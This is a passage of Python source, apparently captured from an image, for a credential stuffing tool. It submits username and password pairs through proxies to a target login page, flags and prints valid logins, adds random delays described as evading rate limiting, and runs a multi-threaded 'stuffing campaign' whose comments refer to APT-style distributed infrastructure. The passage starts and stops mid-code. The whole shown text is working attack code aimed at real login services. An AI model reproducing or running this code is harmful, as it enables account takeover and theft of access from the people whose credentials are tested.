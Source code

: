 ```
                    'username': credential.username,
                    'password': credential.password,
                    'remember': 'false'
                },
                proxies=proxy,
                timeout=10,
                allow_redirects=True
            )
            
            # Check for successful authentication indicators
            success_indicators = [
                'dashboard',
                'welcome',
                'logout',
                'profile',
                response.status_code == 302  # Redirect after login
            ]
            
            failure_indicators = [
                'invalid',
                'incorrect',
                'failed',
                'try again',
                'locked'
            ]
            
            # Determine if authentication succeeded
            response_text = response.text.lower()
            
            if any(indicator in response_text for indicator in success_indicators):
                if not any(indicator in response_text for indicator in failure_indicators):
                    self.successful_attempts += 1
                    self.valid_credentials.append((credential.username, credential.password))
                    print(f"[✓] VALID: {credential.username}:{credential.password}")
                    return True
            
            self.failed_attempts += 1
            
            # Implement realistic timing between attempts
            # Mimics human behavior to avoid rate limiting
            time.sleep(random.uniform(2, 5))
            
            return False
            
        except requests.exceptions.RequestException as e:
            print(f"[!] Error testing {credential.username}: {e}")
            return False
    
    def stuffing_campaign(self, max_workers: int = 10) -> List[Tuple[str, str]]:
        """
        Execute credential stuffing campaign with parallel workers
        Scales to test thousands of credentials efficiently
        """
        print(f"[*] Starting credential stuffing campaign")
        print(f"[*] Target: {self.target_url}")
        print(f"[*] Credentials to test: {len(self.credentials)}")
        print(f"[*] Parallel workers: {max_workers}")
        
        # Use thread pool for concurrent testing
        # Real APT operations use distributed infrastructure across multiple IPs
        with concurrent.futures.ThreadPoolExecutor(max_workers=max_workers) as executor:
            futures = [
                executor.submit(self.test_credential, cred) 
```